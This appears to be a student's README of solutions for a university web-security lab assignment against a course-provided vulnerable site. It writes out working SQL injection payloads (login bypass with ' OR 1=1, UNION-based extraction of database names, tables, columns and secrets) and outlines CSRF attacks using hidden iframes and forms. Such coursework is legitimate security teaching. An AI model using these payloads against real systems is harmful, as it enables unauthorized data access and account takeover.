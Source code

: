 # MP2 - WebSec
##### Instructor: Adam Bates & Ling Ren
CP1 Deadline --- Wednesday, September 27th, 6:00PM

CP2 Deadline --- Thursday, October 6th, 6:00PM

## Project Setup
1. Download VMWare
2. Download Ubuntu 18.04 LTS (CS461 Virtual Machine) at [here](https://uofi.box.com/s/aqaixm5igvqbyxys7gpswxgcsf7nyqo6)
3. Setup the VM in VMWare 

## Build Project
None

## Implementation
#### 2.2.1.1
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
' OR 1=1 -- 
```
#### 2.2.1.2
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
\' OR 1=1 -- 
```
#### 2.2.1.3
Write a python script to mine `md5` hash

Type the following command to run the python script `2.2.1.3.py`
```
./2.2.1.3.py
```
The `passwd` got from the python script are
* `61873882145751551400929987756087961` [35-digit]
* `1107388038190758764683658965752877062` [37-digit]


#### 2.2.1.4
##### 1. Figure out how many columns there are in the table with the following command
```
' OR 1=1 ORDER BY 1; -- 
' OR 1=1 ORDER BY 2; -- 
' OR 1=1 ORDER BY 3; -- 
' OR 1=1 ORDER BY 4; -- 
' OR 1=1 ORDER BY 5; -- 
```
The last command will give you an error. Therefore, there are 4 columns in the table.

##### 2. Use the following command to get the `Database Name`
```
' UNION SELECT NULL,NULL,NULL,DATABASE(); -- 
```

##### 3. Use the following command to get the `Database Version`
```
' UNION SELECT NULL,NULL,NULL,version(); -- 
```
Or use the following alternative command
```
' UNION SELECT NULL,NULL,NULL,@@version; -- 
```

##### 4. Use the following command to get all `Table` in the Database
```
' UNION SELECT NULL,NULL,NULL,GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='proj2_inject3'; --
```

##### 5. Use the following command to get all `Column` in Table `HINT`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='HINT'; -- 
```
The `column_name` got from Table `HINT` are _id_ and _message_

Use the following command to get `message` from Table `HINT` with `id=1`
```
' UNION SELECT NULL,NULL,NULL,message FROM HINT WHERE id='1'; -- 
```
The `message` from table `HINT` with `id=1` is _go to table SECRET and get a secret string from row with your md5(netid)_

Use the following command to get all `Column` in Table `SECRET`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='SECRET'; -- 
```
The `column_name` got from Table `SECRET` are _hash_, _id_, and _secret_

Use the following command to get `md5(netid)`
```
./md5.py
```

Then, use the following command to get `secret` from Table `SECRET` with the `hash=md5(netid)`
```
' UNION SELECT NULL,NULL,NULL,secret FROM SECRET WHERE hash='3168622a73961f1d17b1a105be567177'; -- 
```

#### 2.2.2.1
Create &lt;iframe&gt; that displays nothing

&lt;form&gt; `action`=http://bungle-cs461.csl.illinois.edu/login

Log in with following infomation:
* `csrfdefense`=0
* `xssdefense`=5
* `username`=attacker
* `password`=l33th4x

#### 2.2.2.2
Create &lt;iframe&gt; that displays nothing

Go to original [`Bungle` website](http://bungle-cs461.csl.illinois.edu/)

Right click on search window, and click `Inspect Element`

* The `name`=q

Right click on either `username` or `password` window, and click `Inspect Element`

&lt;input type="hidden" name="csrf_token" value="9165db97e970e7d9facd256db1fdf2f8"&gt;

Submit 2 HTML &lt;form&gt; with function `submitForm()`
* Both of them use `target`=ifrm
* The first form use `action`=http://bungle-cs461.csl.illinois.edu/search
* The second form use `action`=http://bungle-cs461.csl.illinois.edu/login

## Developers
* Hongbo Zheng [NetID: hongboz2]
* Max Song [NetID: mcsong2]
